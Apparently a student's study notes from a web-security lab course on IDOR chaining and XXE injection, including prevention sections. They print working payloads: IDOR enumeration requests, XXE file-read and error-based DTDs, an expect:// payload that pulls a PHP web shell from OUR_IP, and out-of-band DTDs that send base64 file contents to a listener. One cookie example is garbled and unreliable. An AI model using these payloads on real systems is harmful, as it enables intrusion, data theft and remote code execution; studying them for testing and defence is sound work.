### Understanding IDOR Chaining

Sometimes, a single IDOR vulnerability does not provide enough information to perform a more advanced attack.

However, we can combine multiple vulnerabilities to achieve a greater impact. This technique is called **IDOR Chaining**.

In this scenario, we combine two types of IDOR vulnerabilities:

1. **IDOR Information Disclosure:** Retrieve another user's private information, including their UUID and role.
2. **IDOR Insecure Function Calls:** Use the disclosed information to perform unauthorized actions on another user's account.

By chaining these vulnerabilities, we may be able to modify user accounts and escalate privileges.


### Exploiting Information Disclosure

In the previous section, we discovered that the application uses the following API endpoint to manage employee profiles:

```http
/profile/api.php/profile/1
```

The application also uses a GET request to retrieve user information.

**Step 1: Retrieve Our User Details**

First, send a GET request to the API endpoint:

```http
GET /profile/api.php/profile/1 HTTP/1.1
Host: SERVER_IP:PORT
Cookie: role=employee
```

The application returns our profile information.

Notice that the request only contains a role cookie and does not appear to include a user-specific authentication token.

However, the absence of a visible token does not prove that the application has no authentication mechanism. The important issue is whether the backend properly verifies access to the requested user.

**Step 2: Change the User ID**

Now, modify the requested user ID:

```http
GET /profile/api.php/profile/2 HTTP/1.1
Host: SERVER_IP:PORT
Cookie: role=employee
```

The application returns another employee's information:

```json
{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Iona Franklyn",
    "email": "i_franklyn@employees.htb",
    "about": "It takes 20 years to build a reputation and few minutes of cyber-incident to ruin it."
}
```

This confirms an **IDOR Information Disclosure vulnerability**.

The response exposes several details, especially:

- `uid`: The employee's ID.
- `uuid`: The employee's unique identifier.
- `role`: The employee's privilege level.
- `email`: The employee's email address.

The UUID is particularly important because the previous tests showed that the API requires a matching UUID when modifying another user's profile.

### Modifying Another User's Details

Previously, our attempt to modify another employee's profile failed with:

```text
uuid mismatch
```

Now, we have obtained the correct UUID through the Information Disclosure vulnerability.

We can use the disclosed information when testing the profile modification endpoint.

**Step 1: Prepare the PUT Request**

Send a PUT request targeting employee `2`:

```http
PUT /profile/api.php/profile/2 HTTP/1.1
Host: SERVER_IP:PORT
Content-Type: application/json
Cookie: role=employee
```

Example JSON body:

```json
{
    "uid": 2,
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Modified Name",
    "email": "modified@example.com",
    "about": "Modified profile"
}
```

**Step 2: Verify the Modification**

If the application accepts the request, send another GET request:

```http
GET /profile/api.php/profile/2 HTTP/1.1
```

Check whether the modified values are returned.

If another user's profile can be changed without authorization, we have identified an **IDOR Insecure Function Call vulnerability**.

**Potential Impact**

Unauthorized profile modification may lead to additional attacks, depending on how the application uses the modified fields.

**1. Account Takeover**

If the application uses the modified email address for password recovery, changing a victim's email may allow an attacker to receive password-reset messages.

This impact must be verified carefully; changing an email alone does not prove account takeover.

**2. Stored Cross-Site Scripting (Stored XSS)**

If the `about` field is displayed without proper output encoding, inserting an XSS payload may cause JavaScript to execute when another user views the affected profile.

This could expose the application to further attacks.

### Chaining Two IDOR Vulnerabilities

The next step is to investigate whether other users have more privileged roles.

Since the GET endpoint exposes user information, we can enumerate employee IDs and inspect their returned roles.

**Step 1: Enumerate Users**

For each employee ID, send a GET request to:

```http
GET /profile/api.php/profile/USER_ID
```

Record the returned information, especially:

- User ID
- UUID
- Role
- Email address

Look for users with privileged roles.

**Step 2: Identify the Administrator**

In the lab scenario, enumeration reveals an administrator account:

```json
{
    "uid": "X",
    "uuid": "a36fa9e66e85f2dd6f5e13cad45248ae",
    "role": "web_admin",
    "full_name": "administrator",
    "email": "webadmin@employees.htb",
    "about": "HTB{FLAG}"
}
```

The important discovery is the role name:

```text
web_admin
```

Previously, changing our role to `admin` or `administrator` failed because those values were invalid.

Now we know the actual role used by the application.

### 📌 Question


## Section 12

### IDOR Prevention


IDOR vulnerabilities occur mainly because of **broken access control on the back-end server**.

To prevent IDOR, applications need two important security mechanisms:

1. **Object-Level Access Control:** Verify that every user is authorized to access or modify the requested object.
2. **Secure Object References:** Use strong, unpredictable identifiers instead of simple, sequential IDs.

Remember: Secure identifiers make enumeration harder, but they do not replace proper access control.

---

### Object-Level Access Control

Access control should be part of the application's core design. It determines which users can access specific resources and perform certain actions.

A common approach is **Role-Based Access Control (RBAC)**.

**How RBAC Works**

Each user is assigned a role with specific permissions, such as:

- `user`: Can access their own resources.
- `admin`: Can access and manage resources across the application.

Whenever a user sends a request, the back-end server should:

1. Identify the authenticated user.
2. Retrieve their roles and permissions from a trusted server-side source.
3. Identify the requested object.
4. Check whether the user is authorized to perform the requested action.
5. Allow or deny the request.

**Example: Object-Level Authorization**

```javascript
match /api/profile/{userId} {
    allow read, write: if user.isAuth == true
    && (user.uid == userId || user.roles == 'admin');
}
```

**Explanation:**

- `user.isAuth == true`: The user must be authenticated.
- `user.uid == userId`: Users can access their own profiles.
- `user.roles == 'admin'`: Administrators can access other users' profiles.

The user's identity and permissions should come from a trusted back-end authentication and authorization system.

**Never Trust Client-Controlled Roles**

A common security mistake is storing authorization information in client-controlled locations, such as:

- Cookies.
- Request parameters.
- JSON request bodies.
- User-editable profile fields.

For example:

```http
Cookie: role=admin
```

An attacker may modify this cookie to:

```http
Cookie: role=admin
```

If the server trusts the cookie's value without validating it against a trusted session or authorization system, the attacker may gain unauthorized privileges.

**Security principle:** Authentication identifies the user, while authorization determines what that user is allowed to do. Authorization decisions must be enforced by the back-end server.

### Object Referencing

IDOR vulnerabilities become easier to discover when applications use predictable object references.

For example:

```http
GET /api/profile/1
GET /api/profile/2
GET /api/profile/3
```

An attacker can change the ID and attempt to access other users' resources.

**Use Strong and Unpredictable References**

Instead of sequential IDs, applications can use randomly generated identifiers such as UUIDs.

Example UUID v4:

```text
89c9b29b-d19f-4515-b2dd-abb6e693eb20
```

The application stores this UUID in its database and maps it to the corresponding object.

For example:

| UUID | Object |
|---|---|
| `89c9b29b-...` | User 1's profile |
| `a12f8c43-...` | User 2's profile |

When a request contains a UUID, the back-end looks up the corresponding object.

**Important: UUIDs Do Not Prevent IDOR**

Using UUIDs makes guessing and enumerating object references more difficult, but it does not fix broken access control.

If the server accepts another user's UUID without checking ownership or permissions, an attacker may still access that user's resource.

**Generate References on the Back End**

Applications should generate object references when objects are created and store them in the database.

They should not calculate security-sensitive hashes or identifiers on the front end.

For example, avoid relying on client-side code like:

```javascript
const reference = CryptoJS.MD5(userId).toString();
```

An attacker can inspect the JavaScript code, understand the algorithm, and reproduce the reference.

A safer approach is:

1. Generate a random UUID on the back end.
2. Store it alongside the object in the database.
3. Use the UUID to retrieve the object.
4. Verify authorization on every request.

Example PHP code from the lesson:

```php
$uid = intval($_REQUEST['uid']);

$query = "SELECT url FROM documents where uid=" . $uid;

$result = mysqli_query($conn, $query);
$row = mysqli_fetch_array($result);

echo "<a href='" . $row['url'] . "' target='_blank'></a>";
```

This example demonstrates retrieving an object's URL using its ID. However, it is **not a secure IDOR prevention example** because it does not check whether the authenticated user is authorized to access the requested document.

It also uses SQL string concatenation, which should be replaced with prepared statements to prevent SQL injection.

## Section 13

### What Is XXE?

**XML External Entity (XXE) Injection** is a vulnerability that occurs when an application processes user-controlled XML input using an insecure XML parser.

An attacker may abuse XML features, especially external entities, to make the server perform unintended actions.

Depending on the parser configuration and application behavior, XXE can lead to:

- **Local File Disclosure:** Reading sensitive files from the back-end server.
- **Server-Side Request Forgery (SSRF):** Making the server send requests to internal or external resources.
- **Denial of Service (DoS):** Consuming server resources or disrupting application availability.
- **Information Disclosure:** Exposing sensitive information from the server or internal systems.


### Understanding XML

**Extensible Markup Language (XML)** is a markup language designed to store, structure, and transfer data between different applications.

Unlike HTML, which focuses on displaying content, XML focuses on representing and organizing data.

XML documents use a hierarchical structure called an **Element Tree**:

- **Root Element:** The main element of the document.
- **Child Elements:** Elements nested inside another element.
- **Tags:** Define the beginning and end of elements.

**Example XML Document**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
      <to>billing@inlanefreight.com</to>
      <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
    Hello,
    Kindly share with me the invoice for the payment made on January 1, 2022.
    Regards,
    John
  </body>
</email>
```

In this example:

- `email` is the root element.
- `date`, `time`, `sender`, `recipients`, and `body` are child elements.
- `cc` contains additional nested `to` elements.

**Important XML Components**

| Component   | Definition                                                       | Example                                  |
| ----------- | ---------------------------------------------------------------- | ---------------------------------------- |
| Tag         | Defines an XML element.                                          | `<date>`                                 |
| Entity      | Represents a predefined or custom XML value, wrapped with (`&`/`;`) characters                     | `&lt;`                                   |
| Element     | Contains a start tag, content, and an end tag.                   | `<date>01-01-2022</date>`                |
| Attribute   | Provides additional information about an element or declaration. | `version="1.0"`/`encoding="UTF-8"`                          |
| Declaration | Specifies XML version and encoding.                              | `<?xml version="1.0" encoding="UTF-8"?>` |

**Special XML Characters**

Some characters have special meanings in XML and must be represented using entity references when used as data.

| Character | Entity Reference |
| --------- | ---------------- |
| `<`       | `&lt;`           |
| `>`       | `&gt;`           |
| `&`       | `&amp;`          |
| `"`       | `&quot;`         |
| `'`       | `&apos;`         |

XML also supports comments:

```
<!-- This is an XML comment -->
```

---

### XML Document Type Definition (DTD)

**Document Type Definition (DTD)** defines the permitted structure and elements of an XML document.

It can specify:

- Which elements are allowed.
- Which child elements an element can contain.
- The order of child elements.
- Whether elements can contain text or other elements.

**Example: Internal DTD**

```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

**Explanation:**

- `<!DOCTYPE email [...]>`: Defines the document type and its internal DTD.
- `<!ELEMENT email (...)>`: Defines the root element and its required child elements.
- `?`: Means an element is optional.
- `*`: Means an element can appear zero or more times.
- `#PCDATA`: Represents parsed character data (text).

**Example: External DTD**

A DTD can also be stored in a separate file and referenced using the `SYSTEM` keyword.

Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```

The DTD can also be referenced through a URL:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```

When the XML parser supports external DTD loading, it may retrieve the referenced resource while processing the document.


### XML Entities

**XML Entities** are variables that represent predefined or custom values inside an XML document.

They help avoid repeating the same data multiple times.

Entities are defined using the `ENTITY` keyword inside a DTD.

**Internal Entities**

Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

After defining the entity, we can reference it using:

```xml
<email>
  <company>&company;</company>
</email>
```

The XML parser replaces `&company;` with its defined value:

```xml
<company>Inlane Freight</company>
```

**External Entities**

External entities reference resources outside the XML document.

They are defined using the `SYSTEM` keyword followed by the resource path.

Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

Here:

- `company` references a resource through HTTP.
- `signature` references a local file on the server.
- `SYSTEM` tells the XML parser where to find the external resource.

When an external entity is referenced:

```xml
<email>
  <signature>&signature;</signature>
</email>
```

The XML parser may attempt to retrieve the referenced file and replace `&signature;` with its contents.

If the application processes the XML on the server and exposes the resulting content, sensitive local files may be disclosed.

**Important:** External entity processing depends on the XML parser configuration. If external entity resolution is disabled, these references should not be processed.

**SYSTEM vs. PUBLIC**

XML supports two keywords for declaring external entities:

| Keyword  | Purpose                                                                                                           |
| -------- | ----------------------------------------------------------------------------------------------------------------- |
| `SYSTEM` | References an external resource using a system identifier, such as a file path or URL.                            |
| `PUBLIC` | References an externally identified resource using a public identifier, optionally alongside a system identifier. |


### Key Takeaways

1. **XML** is used to structure and transfer data between applications.
2. **DTD** defines the allowed structure of an XML document.
3. **Entities** represent reusable values inside XML.
4. **Internal Entities** contain values defined inside the XML document.
5. **External Entities** reference resources outside the document.
6. The `SYSTEM` keyword is used to reference external resources.
7. **XXE occurs when an application processes untrusted XML with unsafe external entity handling.**
8. XXE may lead to local file disclosure, SSRF, and denial of service.

## Section 14

### Identifying XXE Vulnerabilities

The first step is to find application functionality that accepts XML input.

Common places to investigate include:

- Contact forms.
- XML-based APIs.
- SOAP endpoints.
- File upload functionality that processes XML.
- Applications that accept different request formats.

**Step 1: Find an XML Input Point**

In the HTB lab, the target is a contact form:

```text
http://SERVER_IP:PORT/index.php
```

After submitting the form and intercepting the request using Burp Suite, we discover that the application sends XML data to:

```http
POST /submitDetails.php
Content-Type: application/xml
```

Example request body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <name>John</name>
    <tel>123456789</tel>
    <email>email@xxe.htb</email>
    <message>Hello</message>
</root>
```

This is a potential XXE testing target because the application processes XML received from the user.

**Step 2: Identify Reflected Elements**

Send the original request without modifications.

The application responds with:

```text
Check your email email@xxe.htb for further instructions.
```

Notice that the value of the `<email>` element is reflected in the response.

**Important:** Identify which XML elements are reflected in the HTTP response. We can use these elements to **display the results of an XXE payload**.

If no XML values are reflected, other XXE techniques may still be possible, which are covered in later sections.

**Step 3: Test Internal Entity Injection**

Before attempting to read files, test whether the XML parser processes custom entities.

Add a DTD after the XML declaration:

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Then reference the entity inside the email element:

```xml
<email>&company;</email>
```

If the entity is processed, the response should contain:

```text
Check your email Inlane Freight for further instructions.
```

This indicates that the application processes our custom XML entity.

If the application displays `&company;` as raw text instead, the entity was not resolved in this test.

**Note:** If the original XML request already contains a `DOCTYPE` declaration, add the new `ENTITY` declaration to the existing DTD instead of creating another one.

> **Important**: JSON Applications May Accept XML

Some applications normally send JSON requests but may also accept XML.

During authorized testing, we can try:

1. Intercept the JSON request using Burp Suite.
2. Change the `Content-Type` header to `application/xml`.
3. Convert the request body into valid XML [Online Tool](https://www.convertjson.com/json-to-xml.htm).
4. Send the modified request.
5. Check whether the server accepts and processes the XML.

For example:

```http
Content-Type: application/xml
```

If the application accepts XML, it may expose an additional attack surface for XXE testing.


### Reading Sensitive Local Files

After confirming that custom XML entities are processed, we can test whether external entities are supported.

**Step 1: Define an External Entity**

Instead of defining a static value, use the `SYSTEM` keyword to reference a local file.

Example:

```xml
<!DOCTYPE email [
    <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

**Step 2: Reference the Entity**

Place the entity inside an XML element that is reflected in the response:

```xml
<email>&company;</email>
```


**Potential Sensitive Files**

Depending on the operating system, permissions, and application environment, interesting files may include:

- Configuration files.
- Application source files.
- Database credentials.
- API keys.
- SSH private keys, such as `id_rsa`.

**Important:** File access is limited by the permissions of the process running the application.

### Reading Application Source Code

Local file disclosure can also help us retrieve the application's source code.

This can support a **Whitebox Penetration Test**, allowing us to inspect the application's implementation and potentially discover:

- Hardcoded credentials.
- Database connection details.
- API keys.
- Hidden endpoints.
- Additional vulnerabilities.

**The Problem with Reading PHP Files Directly**

Consider trying to read:

```text
index.php
```

Using a normal external entity:

```xml
<!DOCTYPE email [
    <!ENTITY company SYSTEM "file:///var/www/html/index.php">
]>
```

This may fail because PHP source code is not necessarily valid XML.

For example, XML special characters such as:

```text
<  >  &
```

may cause parsing problems when the file contents are inserted into the XML document.

**Binary files** also cannot normally be displayed as valid XML content.

**Solution: PHP Base64 Filter**

PHP provides stream filters that can encode file contents before they are returned.

We can use:

```text
php://filter/convert.base64-encode/resource=index.php
```

Example payload:

```xml
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

Then reference the entity:

```xml
<email>&company;</email>
```


### Remote Code Execution (RCE) with XXE

In certain environments, XXE may lead to Remote Code Execution.

However, RCE is not a guaranteed result of XXE. It depends on the server configuration, installed components, available permissions, and the application's behavior.

**Method 1: PHP Expect Wrapper**

The lesson describes using the **PHP `expect://` wrapper** to execute commands.

Example:

```text
expect://id
```

If the PHP Expect module is installed and enabled, and the application reflects the command output, the result of the command may appear in the response.

**Limitations:**

- The PHP Expect module is not enabled or installed by default on modern PHP servers.
- The XML parser must allow the relevant external entity.
- The application must expose the command output for direct results.

**Method 2: Fetching a Web Shell**

The lesson also describes downloading a **PHP web shell from an attacker-controlled server**.

Example lab preparation:

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

sudo python3 -m http.server 80
```

The XML payload uses the Expect wrapper to execute a `curl` command that retrieves the file.

Example:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
    <name></name>
    <tel></tel>
    <email>&company;</email>
    <message></message>
</root>
```

The `$IFS` variable is used as a **substitute for spaces in the command**.

If successful, the server requests `shell.php` from the attacker's HTTP server.

The downloaded PHP file can then be used as a web shell to execute commands.

**Limitations:**

- Requires the PHP Expect module.
- Requires the server to be able to reach the external HTTP server.
- Requires suitable write permissions.
- Requires the web server to execute the downloaded PHP file.


### Other XXE Attacks

XXE is not limited to reading local files. Depending on the parser and application behavior, it may lead to other attacks.

#### Server-Side Request Forgery (SSRF)

An attacker may use external entities to make the back-end server send requests to other resources.

Possible targets include:

- Internal web applications.
- Local services.
- Internal network resources.
- Restricted web pages.

This can help enumerate services and access resources that are not directly accessible from the attacker's machine.

#### Denial of Service (DoS)

XXE can also be abused to consume server resources.

The lesson demonstrates an entity expansion technique sometimes called a **Billion Laughs Attack**.

The idea is to define entities that reference other entities repeatedly, causing the parser to expand a relatively small XML document into a very large amount of data.

Conceptually:

```xml
<!DOCTYPE email [
    <!ENTITY a0 "DOS">
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
    <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;">
]>
```

Each entity expands the previous entity multiple times.

As the expansion levels increase, memory and processing requirements can grow dramatically.

**Important:** Modern XML parsers and web servers often implement protections against entity expansion attacks. The exact behavior depends on the parser configuration.

Do not test resource-exhaustion payloads against production systems.

### Key Takeaways

| Technique | Purpose |
|---|---|
| Internal Entity Injection | Confirms whether custom XML entities are processed. |
| External Entity Injection | Attempts to retrieve external resources. |
| `file://` | References local files. |
| PHP Base64 Filter | Encodes file contents to avoid XML parsing issues. |
| `expect://` | Can execute commands in PHP environments where the Expect module is available. |
| SSRF | Makes the server send requests to other resources. |
| Entity Expansion | Can consume excessive server resources and cause DoS. |

### 📌 Question

**Step 1:** Find an XML Input Point & Identify Reflected Elements

- Open the target website and submit the contact form with any data.
- Intercept the request and send it to Burp Suite Repeater.
- Observe that the email value is reflected in the HTTP response:

```
Check your email bav@gmail.com for further instructions.
```

**The reflected email element is a suitable injection point.**


**Step 2:** Test Internal Entity Injection

- Add a custom XML entity to the DTD.
- Reference it inside the reflected `<email>` element.

```
<!DOCTYPE email [
    <!ENTITY hacker "bavthe0ne">
]>
<email>&hacker;</email>
```

- If the response displays `bavthe0ne`, internal entity injection is confirmed.


**Step 3:** Read `connection.php` Using PHP Base64 Filter

- Define an external entity using **PHP's Base64 filter**.
- Reference the entity inside `<email>`.

```
<!DOCTYPE email [
    <!ENTITY hacker SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<email>&hacker;</email>
```


## Section 15

### Advanced Exfiltration with CDATA

**Goal:** Read files that cannot be displayed using basic XXE because their contents contain special XML characters or are not valid XML.

**Step 1: Understand the CDATA Technique**

**`CDATA`** allows XML parsers to treat content as **raw character data**.

```xml
<![CDATA[ FILE_CONTENT ]]>
```

However, directly combining internal and external entities does not work because **XML prevents joining them in this way** so **we Create an External DTD** using **`XML Parameter Entities`**.

**Step 2: Create an External DTD**

**XML Parameter Entities**: special type of entity that starts with a **`%` character** and can only be used **within the DTD**. What's unique about parameter entities is that **if we reference them from an external source**(e.g., our own server)

Create a file named **`xxe.dtd`**:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Host it using a Python HTTP server:

```bash
python3 -m http.server 8000
```

**Step 3: Send the XXE Payload**

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element

```xml
<!DOCTYPE email [
    <!ENTITY % begin "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
    <!ENTITY % end "]]>">
    <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
    %xxe;
]>
<root>
    <email>&joined;</email>
</root>
```

**Step 4: Retrieve the File Content**

- Send the modified request to the vulnerable endpoint.
- The external DTD combines the entities inside a CDATA section.
- Check the HTTP response for the requested file's source code.

**Key Point:** This technique can retrieve file contents containing XML special characters **without requiring Base64 encoding.**


### Error-Based XXE

**Goal:** Extract file contents when the application **does not reflect XML input in its response**(**`blind`**).

**Step 1: Identify Error Messages**

Send malformed XML or reference a non-existing entity.

Example:

```xml
<root>
    <email>&nonExistingEntity;</email>
</root>
```

If the application **displays an XML parsing error**, inspect it for useful information, such as **the server's directory path**.


**Step 2: Create an External DTD**

Create **`xxe.dtd`** with the following content:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

**Explanation:**

- `%file;` references the local file.
- `%nonExistingEntity;` references an undefined entity.
- Combining them causes a parsing error that **may reveal the file contents**.

**Step 3: Host the DTD**

```bash
python3 -m http.server 8000
```

**Step 4: Send the XXE Payload**

```xml
<!DOCTYPE email [
    <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
    %remote;
    %error;
]>
```

**Step 5: Retrieve the File Content**

- Send the request to the vulnerable endpoint.
- Inspect the returned error message.
- If successful, the error may contain the contents of `/etc/hosts`.


**Reading Application Source Code**

To attempt reading another file, change the file reference in `xxe.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

**Limitations:**

- Error-based extraction may **have response-length limitations**.
- Special characters may break **the error message**.
- It is generally **less reliable for source-code extraction than the CDATA technique**.

### Quick Comparison

| Technique | When to Use | How It Works |
|---|---|---|
| Basic XXE | Reflected XML output is available | Displays external entity contents in the response. |
| CDATA XXE | File contents contain XML special characters | Wraps file contents as raw CDATA data using an external DTD. |
| Error-Based XXE | XML input is not reflected, but errors are displayed | Forces parsing errors to expose file contents. |

### Key Takeaways

1. **CDATA XXE:** Useful when basic XXE fails because file contents break XML formatting.
2. **External DTD:** Allows parameter entities to be **combined when internal and external entities** cannot be joined directly.
3. **Error-Based XXE:** Useful when the application does not reflect XML input but reveals parsing errors.
4. **Error Messages:** May expose sensitive file contents and server directory paths.
5. **Limitations:** Error-based extraction **may fail with long files or special characters**.

### 📌 Question

#### Method 1

**Read the flag at '/flag.php' with `CDATA`**

**Step 1: Create an External DTD**

Create a file named **`xxe.dtd`**:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Host it using a Python HTTP server:

```bash
python3 -m http.server 8000
```

**Step 2: Send the XXE Payload**

```xml
<!DOCTYPE email [
    <!ENTITY % begin "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///flag.php">
    <!ENTITY % end "]]>">
    <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
    %xxe;
]>
<root>
    <email>&joined;</email>
</root>
```

**Step 3: Retrieve the File Content**


#### Method 2

**Step 1: Create an External DTD**

Create **`xxe.dtd`** with the following content:

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Host it using a Python HTTP server:

```bash
python3 -m http.server 8000
```

**Step 2: Send the XXE Payload**

```xml
<!DOCTYPE email [
    <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
    %remote;
    %error;
]>
```

**Step 3: Retrieve the File Content**


## Section 16

### What Is Blind Data Exfiltration?

Blind XXE occurs when:

- The application does not display the output of XML entities.
- PHP errors are not displayed.
- We cannot directly see the contents of the files we try to read.

In this situation, we can use **Out-of-Band (OOB) Data Exfiltration** to send the file contents to a server we control.

### Out-of-Band (OOB) Data Exfiltration

Instead of making the application display the file contents in its response, we make **it send an HTTP request to our server containing the file data**.

**Step 1: Create an External DTD**

Create a file named `xxe.dtd` containing:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

- `%file;` reads the target file and Base64-encodes its content.
- `%oob;` defines an external entity that sends the encoded content to our server.

**Step 2: Prepare a Listener**

Create `index.php`: **`nano index.php`**

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Start a PHP server:

```bash
php -S 0.0.0.0:8000
```

This server receives the encoded data, decodes it, and prints the file content in the terminal.

**Step 3: Send the XXE Payload**

Reference the external DTD and the `content` entity:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

**Step 4: Retrieve the File Content**

1. Submit the XML payload to the vulnerable application.
2. The application requests the external DTD.
3. The external entity triggers another HTTP request containing the encoded file content.
4. Check your PHP server terminal.
5. The decoded file content should appear there.


### Automated OOB Exfiltration with XXEinjector

**[XXEinjector](https://github.com/enjoiz/XXEinjector)** can automate several XXE techniques, including:

- Basic XXE
- CDATA source exfiltration
- Error-based XXE
- Blind OOB XXE

**Step 1: Install the Tool**

```
git clone https://github.com/enjoiz/XXEinjector.git
```

**Step 2: Prepare the HTTP Request**

Copy the vulnerable HTTP request from Burp Suite and save it in a file, for example:

```
/tmp/xxe.req
```

Keep the request headers and only the first XML declaration line in the body. Replace the remaining XML content with:

```
<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

`XXEINJECT` is the injection position locator used by the tool.

**Step 3: Run XXEinjector**

```
ruby XXEinjector.rb \
  --host=YOUR_TUN0_IP \
  --httpport=8000 \
  --file=/tmp/xxe.req \
  --path=/etc/passwd \
  --oob=http \
  --phpfilter
```

**Important options:**

| Option        | Purpose                         |
| ------------- | ------------------------------- |
| `--host`      | Your listener IP address        |
| `--httpport`  | Listener port                   |
| `--file`      | HTTP request file               |
| `--path`      | Target file to read             |
| `--oob=http`  | Use HTTP-based OOB exfiltration |
| `--phpfilter` | Use PHP Base64 encoding filter  |

**Step 4: Retrieve the Results**

XXEinjector stores exfiltrated files in its `Logs` directory.

Example:

```
cat Logs/TARGET_IP/etc/passwd.log
```

The tool may not print the file content directly because it is Base64-encoded during exfiltration. Check the generated log file instead.

### 📌 Question


**Step 1: Create an External DTD**

Create a file named `xxe.dtd` containing:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

**Step 2: Prepare a Listener**

Create `index.php`: **`nano index.php`**

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Start a PHP server:

```bash
php -S 0.0.0.0:8000
```

This server receives the encoded data, decodes it, and prints the file content in the terminal.

**Step 3: Send the XXE Payload**

Reference the external DTD and the `content` entity:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

**Step 4: Retrieve the File Content**


## Section 17

### Avoiding Outdated Components

XXE vulnerabilities often occur because an application uses outdated or unsafe XML parsing libraries.

Unlike vulnerabilities such as XSS, SQL Injection, and OS Injection, XML processing is **usually handled by built-in libraries rather than manually written code**.

**What Should Be Updated?**

- XML parsing libraries.
- API libraries that process XML, such as SOAP.
- Document and file processors that parse XML, such as SVG and PDF processors.
- Other outdated web components and dependencies, such as Node.js modules.

**PHP Example**

The following function is deprecated:

```php
libxml_disable_entity_loader(false);
```

`libxml_disable_entity_loader()` has been deprecated since PHP 8.0.0. Relying on it is discouraged because it can enable unsafe external entity loading.

**Key point:** Keep XML libraries and all related components updated, and use their recommended secure parsing functions.

Reference: [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

### Using Safe XML Configurations

XML parsers should be configured securely to prevent unsafe entity processing.

**Important security configurations include:**

- Disable custom Document Type Definitions (DTDs).
- Disable external XML entity references.
- Disable parameter entity processing.
- Disable XInclude support.
- Prevent entity reference loops.

**Proper Error Handling**

Error-based XXE may expose file contents through application errors.

To reduce this risk:

- Implement proper exception handling.
- Disable displaying runtime errors on production web servers.
- Avoid exposing sensitive debugging information to users.

**Note:** Hiding errors is an additional protection layer, not a replacement for securing the XML parser.

**Consider Alternative Data Formats**

Since XML introduces risks related to external entities and XML parsing, developers may consider using other data formats.

Examples:

- Use JSON or YAML instead of XML where appropriate.
- Avoid XML-based API standards such as SOAP when they are not necessary.
- Consider JSON-based APIs, such as REST APIs.

**Use a Web Application Firewall (WAF)**

A WAF can provide another layer of protection against XXE attacks by detecting or blocking suspicious requests.

However:

- A WAF should not be the primary security solution.
- WAF rules can sometimes be bypassed.
- The backend XML parser must still be configured securely.

## Section 18

